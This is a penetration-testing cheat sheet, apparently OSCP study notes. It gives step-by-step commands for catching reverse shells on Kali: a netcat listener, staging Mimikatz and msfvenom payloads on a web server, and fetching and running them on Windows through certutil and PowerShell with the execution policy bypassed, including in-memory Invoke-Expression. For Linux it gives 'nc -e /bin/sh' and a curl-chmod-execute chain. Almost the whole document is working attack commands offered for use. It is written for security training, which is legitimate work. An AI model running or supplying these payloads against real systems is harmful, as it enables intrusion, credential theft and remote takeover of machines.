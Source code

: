 # 1. Setup Kali for connections

## 1.1. Setup listener

```console
nc -nlvp 4444
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## 1.2. Prepare payload transfer

Prepare files to web server root

☝️ Apache2 is already running with DocumentRoot at `/var/www/html`

If Kali isn't setup as web server, use `python3 -m http.server 80 &> /dev/null &` to run a web server endpoint, the web server root will be the `pwd` where the command was run

### Mimikatz:

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /var/www/html
```

### MSFVenom reverse shell TCP:

☝️ omit the `x64` to generate a x86 payload

Linux:

```console
msfvenom -p linux/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f py -o /var/www/html/reverse.py
```

Windows:

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o /var/www/html/reverse.exe
```

### PowerShell-based reverse shell script:

Download the reverse shell scription:

```console
curl -O https://raw.githubusercontent.com/joetanx/oscp/main/reverse.ps1
```

Edit the address and port:

```console
sed -i 's/<ADDRESS>/kali.vx/' reverse.ps1
sed -i 's/<PORT>/4444/' reverse.ps1
```

# 2. Execute payloads on Windows

## 2.1. Execute Windows reverse shell TCP payload

### Using certutil

```console
certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %USERPROFILE%\reverse.exe && %USERPROFILE%\reverse.exe
```

### Using PowerShell

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','%USERPROFILE%\reverse.exe'); Start-Process %USERPROFILE%\reverse.exe
```

## 2.2. Execute PowerShell-based reverse shell script

☝️ `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only

(i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/reverse.ps1')
```

# 3. Execute payloads on Linux

## 3.1. Simply nc back (if netcat is installed on target machine)

```console
nc -nv 192.168.17.10 4444 -e /bin/sh
```

### 3.2. Execute Linux reverse shell TCP payload

```console
curl -O http://kali.vx/reverse.elf && chmod +x reverse.elf && ./reverse.elf
```
